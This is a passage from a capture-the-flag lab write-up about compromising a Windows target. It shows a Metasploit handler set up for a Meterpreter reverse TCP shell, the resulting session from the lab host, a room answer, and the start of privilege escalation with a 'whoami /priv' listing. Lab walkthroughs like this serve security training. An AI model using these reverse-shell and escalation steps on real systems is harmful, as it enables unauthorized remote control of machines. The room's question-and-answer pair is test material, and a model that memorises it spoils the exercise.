 ```
```

Now, let's start a listener on our machine using msfconsole and then execute the exe file we downloaded to the target :  
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 4445
LPORT => 4445
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.14.32.60:4445 
[*] Sending stage (175686 bytes) to 10.10.226.91
[*] Meterpreter session 1 opened (10.14.32.60:4445 -> 10.10.226.91:49269) at 2022-10-26 00:21:18 +0200

meterpreter >
```

We have now a meterpreter shell on the target.

**Question : What is the final size of the exe payload that you generated ?**  
**Answer : 73802**  

## Privilege escalation

Let's use `whoami /priv` to see what privileges we have :  
```
PS C:\Users\bruce\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------


Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```
